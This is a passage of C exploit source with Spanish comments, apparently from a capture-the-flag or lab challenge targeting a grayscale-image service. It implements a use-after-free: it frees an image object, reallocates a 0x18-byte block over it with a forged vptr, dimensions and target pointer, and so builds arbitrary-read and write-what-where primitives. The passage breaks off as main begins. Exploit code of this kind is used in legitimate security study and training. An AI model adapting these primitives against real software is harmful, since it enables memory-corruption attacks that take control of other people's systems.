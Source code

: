 ```c
  make_grayscale_image(sizeof(input), 1, (uint8_t *)&input);

  /* Procedemos leyendo el buffer de datos del objeto.
   *
   */
  uint16_t w;
  uint16_t h;

  uint8_t *out_buffer;
  get_grayscale_image_bytes(uaf_handle, &out_buffer, &w, &h);
  memcpy(response_buffer, out_buffer, count);
  free(out_buffer);
}

//==============================================================================
// write_what_where
//------------------------------------------------------------------------------

void write_what_where(
    uint64_t target_address,
    uint8_t *data,
    uint16_t data_length,
    uint64_t vptr_GrayscaleImage,
    int uaf_handle) {

  /* Comenzamos esencialmente igual que en la lectura arbitraria,
   * liberando la imagen identificada por uaf_handle para sobrescribir
   * sus datos.
   *
   */
  free_grayscale_image(uaf_handle);
    
  /* Nuevamente, procederemos a sobrescribir los datos de un objeto
   * GrayscaleImage mediante la reserva de un bloque de 0x18 bytes.
   *
   */
  uint64_t c = (((uint64_t)data_length) << 16) + 1;

  uint64_t input[] = {
    vptr_GrayscaleImage, // vptr
    c,                   // 0x00000000 | width (2 bytes) | height (2 bytes)
    target_address
  };

  /* Modificamos los datos del viejo objeto GrayscaleImage identificado
   * por el handle uaf_handle.
   *
   */
  make_grayscale_image(sizeof(input), 1, (uint8_t *)&input);

  /* Ejecutamos la escritura.
   *
   */
  set_grayscale_image_bytes(uaf_handle, data, data_length);
}

//==============================================================================
// main
//------------------------------------------------------------------------------

int main(int argc, char **argv) {
  img_init();

```